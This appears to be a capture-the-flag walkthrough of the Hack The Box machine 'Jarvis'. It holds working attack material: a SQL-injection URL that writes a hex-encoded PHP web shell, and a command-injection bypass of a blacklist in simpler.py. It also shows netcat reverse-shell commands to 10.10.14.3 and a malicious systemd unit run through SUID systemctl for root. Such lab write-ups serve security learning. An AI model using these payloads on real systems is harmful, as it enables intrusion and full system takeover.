



# **Jarvis - 10.10.10.143**

####  `Jarvis` is one of the fun-filled machine I have solved in **HTB**. The IP of this machine is **10.10.10.143**. This machine like most machines in **HTB** comes with lot of new things to learn and introduced me to an awesome page [GTFOBins](https://gtfobins.github.io), which is inspired by [LOLBAS](https://lolbas-project.github.io/) project for windows.


## **1.Enumeration**
### 1.1 nmap
  ``` bash
  Nmap scan report for 10.10.10.143 (10.10.10.143)
  Host is up (0.39s latency).
  Not shown: 65528 closed ports, 4 filtered ports
  Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
  PORT      STATE SERVICE VERSION
  22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
  | ssh-hostkey:
  |   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
  |   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
  |_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
  80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
  | http-cookie-flags:
  |   /:
  |     PHPSESSID:
  |_      httponly flag not set
  |_http-server-header: Apache/2.4.25 (Debian)
  |_http-title: Stark Hotel
  64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
  |_http-server-header: Apache/2.4.25 (Debian)
  |_http-title: Site doesn't have a title (text/html).
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```


### 1.2 Port 80
  Since port 80 is open, let us open `http://10.10.10.143:80` in a browser.
  

  As you look around and enumerate various links, you see differnt hotel room options like below.
  

  Since we see a parameter value being sent as plain text in URL, we can try if SQL injection is possible with the help of [OWASP Tests](https://www.owasp.org/index.php/Testing_for_MySQL)

  When trying to use `1 limit 1 into outfile '/var/www/root/trial.php' FIELDS ENCLOSED BY '//'  LINES TERMINATED BY '<?php shell_exec($_GET['cmd']); ?>'` the result of accessing `http://10.10.10,143/trial.php` is `NOT FOUND`.
  So, we try to evade any Web Application Firewall(WAF) present, by taking hex of `<?php shell_exec($_GET['cmd']); ?>` which is `0x3C3F706870207368656C6C5F6578656328245F4745545B27636D64275D293B203F3E`.

  Now trying the following, we find that we are successful in creating a file `trial.php` in `/var/www/html/`

 `http://10.10.10.143/room.php?cod=1%20limit%201%20INTO%20OUTFILE%20%27/var/www/html/trial.php%27%20LINES%20TERMINATED%20BY%200x3C3F706870207368656C6C5F6578656328245F4745545B27636D64275D293B203F3E`

## **2.Exploitation**

  Let us now try to get a reverse shell using command execution, passing the command as value to the GET parameter `cmd`in the file `trial.php`.
  Using netcat command, a low-privileged-user reverse-shell is obtained at port 4444.
  

  

  As observed the user shell is of `www-data`. Checking for **user.txt**, we observe that it is located in `/home/pepper/user.txt`. So, in order to access **user.txt** we must escalate our privilege to user `pepper`.

## **3.Privilege Escalation**
  As enumerating the machine for privilege escalation, we get the following result for the command `sudo -l`

```
www-data@jarvis:/var/www/html$sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

  Which means, we can run `/var/www/Admin-Utilities/simpler.py` as pepper without knowing password for pepper or being pepper. So let us go ahead and check the contents of the python program `simpler.py`

``` python
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    '''
    print(message)

def show_header():
    print('''***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************
''')

def show_statistics():
    path = '/home/pepper/Web/Logs/'
    print('Statistics\n-----------')
    listed_files = listdir(path)
    count = len(listed_files)
    print('Number of Attackers: ' + str(count))
    level_1 = 0
    dat = datetime(1, 1, 1)
    ip_list = []
    reks = []
    ip = ''
    req = ''
    rek = ''
    for i in listed_files:
        f = open(path + i, 'r')
        lines = f.readlines()
        level2, rek = get_max_level(lines)
        fecha, requ = date_to_num(lines)
        ip = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if fecha > dat:
            dat = fecha
            req = requ
            ip2 = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if int(level2) > int(level_1):
            level_1 = level2
            ip_list = [ip]
            reks=[rek]
        elif int(level2) == int(level_1):
            ip_list.append(ip)
            reks.append(rek)
        f.close()

    print('Most Risky:')
    if len(ip_list) > 1:
        print('More than 1 ip found')
    cont = 0
    for i in ip_list:
        print('    ' + i + ' - Attack Level : ' + level_1 + ' Request: ' + reks[cont])
        cont = cont + 1

    print('Most Recent: ' + ip2 + ' --> ' + str(dat) + ' ' + req)

def list_ip():
    print('Attackers\n-----------')
    path = '/home/pepper/Web/Logs/'
    listed_files = listdir(path)
    for i in listed_files:
        f = open(path + i,'r')
        lines = f.readlines()
        level,req = get_max_level(lines)
        print(i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3] + ' - Attack Level : ' + level)
        f.close()

def date_to_num(lines):
    dat = datetime(1,1,1)
    ip = ''
    req=''
    for i in lines:
        if 'Level' in i:
            fecha=(i.split(' ')[6] + ' ' + i.split(' ')[7]).split('\n')[0]
            regex = '(\d+)-(.*)-(\d+)(.*)'
            logEx=re.match(regex, fecha).groups()
            mes = to_dict(logEx[1])
            fecha = logEx[0] + '-' + mes + '-' + logEx[2] + ' ' + logEx[3]
            fecha = datetime.strptime(fecha, '%Y-%m-%d %H:%M:%S')
            if fecha > dat:
                dat = fecha
                req = i.split(' ')[8] + ' ' + i.split(' ')[9] + ' ' + i.split(' ')[10]
    return dat, req

def to_dict(name):
    month_dict = {'Jan':'01','Feb':'02','Mar':'03','Apr':'04', 'May':'05', 'Jun':'06','Jul':'07','Aug':'08','Sep':'09','Oct':'10','Nov':'11','Dec':'12'}
    return month_dict[name]

def get_max_level(lines):
    level=0
    for j in lines:
        if 'Level' in j:
            if int(j.split(' ')[4]) > int(level):
                level = j.split(' ')[4]
                req=j.split(' ')[8] + ' ' + j.split(' ')[9] + ' ' + j.split(' ')[10]
    return level, req

def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)

if __name__ == '__main__':
    show_header()
    if len(sys.argv) != 2:
        show_help()
        exit()
    if sys.argv[1] == '-h' or sys.argv[1] == '--help':
        show_help()
        exit()
    elif sys.argv[1] == '-s':
        show_statistics()
        exit()
    elif sys.argv[1] == '-l':
        list_ip()
        exit()
    elif sys.argv[1] == '-p':
        exec_ping()
        exit()
    else:
        show_help()
        exit()

```
  Observing the `def exec_ping()` in the program we can see the filter ```['&', ';', '-', '`', '||', '|']``` which is the set of forbidden values for the input to the `os.system()` being called for pinging an IP. Note that it takes the value as user input. **Way to go!!!**
  Now thinking of possible ways to evade the filter, we can write the command we need to execute into a file and provide the file contents using `cat` as input to the program.
``` bash
$ echo "nc 10.10.14.3 1234 -r /bin/bash" > /tmp/payload.txt
$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************

Enter an IP: $( $(cat /tmp/payload.txt))
```
This results in a reverse shell with user `pepper` !!!


``` bash
pepper@jarvis:/var/www/Admin-Utilities$ id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
pepper@jarvis:/var/www/Admin-Utilities$ cd /home/pepper/
pepper@jarvis:~$ ls -al
total 32
drwxr-xr-x 4 pepper pepper 4096 Mar  5  2019 .
drwxr-xr-x 3 root   root   4096 Mar  2  2019 ..
lrwxrwxrwx 1 root   root      9 Mar  4  2019 .bash_history -> /dev/null
-rw-r--r-- 1 pepper pepper  220 Mar  2  2019 .bash_logout
-rw-r--r-- 1 pepper pepper 3526 Mar  2  2019 .bashrc
drwxr-xr-x 2 pepper pepper 4096 Mar  2  2019 .nano
-rw-r--r-- 1 pepper pepper  675 Mar  2  2019 .profile
drwxr-xr-x 3 pepper pepper 4096 Mar  4  2019 Web
-r--r----- 1 root   pepper   33 Mar  5  2019 user.txt
pepper@jarvis:~$ cat user.txt
2afa36**************************
```
Now lets go look for ways to get to `root`. After quickly transfering `LinEnum.sh` and running the same, we observe this:

``` bash
[-] SUID files:
-rwsr-xr-x 1 root root 30800 Aug 21  2018 /bin/fusermount
-rwsr-xr-x 1 root root 44304 Mar  7  2018 /bin/mount
-rwsr-xr-x 1 root root 61240 Nov 10  2016 /bin/ping
-rwsr-x--- 1 root pepper 174520 Feb 17  2019 /bin/systemctl
-rwsr-xr-x 1 root root 31720 Mar  7  2018 /bin/umount
-rwsr-xr-x 1 root root 40536 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 40312 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59680 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75792 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40504 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 140944 Jun  5  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 50040 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 440728 Mar  1  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42992 Mar  2  2018 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Seeing that `SUID` bit is set for `systemctl` and googling about it, we find [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/).
After spending sometime with it, I could figure out how to create a service and run it using the SUID bit enabled systemctl, which in-turn would run the command within the service as root.
Hence, I decided to create a service that runs netcat to give a reverse shell as root.

``` bash
pepper@jarvis:~$ ls -al
total 212
drwxr-xr-x 4 pepper pepper   4096 Nov  8 03:24 .
drwxr-xr-x 3 root   root     4096 Mar  2  2019 ..
lrwxrwxrwx 1 root   root        9 Mar  4  2019 .bash_history -> /dev/null
-rw-r--r-- 1 pepper pepper    220 Mar  2  2019 .bash_logout
-rw-r--r-- 1 pepper pepper   3526 Mar  2  2019 .bashrc
drwxr-xr-x 2 pepper pepper   4096 Mar  2  2019 .nano
-rw-r--r-- 1 pepper pepper    675 Mar  2  2019 .profile
drwxr-xr-x 3 pepper pepper   4096 Mar  4  2019 Web
-rw-r--r-- 1 pepper pepper     32 Nov  8 03:24 exploit
-rwxr-xr-x 1 pepper pepper    117 Nov  8 03:32 exploit.service
-rwsr-s--- 1 pepper pepper 174520 Nov  8 03:22 systemctl
-r--r----- 1 root   pepper     33 Mar  5  2019 user.txt
pepper@jarvis:~$ cat exploit.service
[Unit]
Description=rootshell
[Service]
ExecStart=/bin/bash /home/pepper/exploit
[Install]
WantedBy=multi-user.target
pepper@jarvis:~$ cat exploit
nc 10.10.14.3 9000 -e /bin/bash
pepper@jarvis:~$ systemctl link /home/pepper/exploit.service
pepper@jarvis:~$ systemctl enable /home/pepper/exploit.service --now
```
This resulted in reverse shell at port 9000 as user `root`.



We can now read the **root.txt** :D

 ``` bash
root@jarvis:/root$cat root.txt
d41d8c**************************
 ```


## **NOTE**

> I had some issues while creating and running the service.
> One of the error is `No such file or directory`, which was resolved when I gave the fullpath to service
  ``` bash
pepper@jarvis:~$ cat exploit.service
[Unit]
Description=rootshell
[Service]
ExecStart=/bin/bash /home/pepper/exploit
[Install]
WantedBy=multi-user.target
pepper@jarvis:~$ systemctl enable exploit.service --now
Failed to enable unit: File exploit.service: No such file or directory
```
> Also, when following [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/), I observed that, the solution was creating service in `/tmp/` folder. For reasons that I am not sure of, that did not work
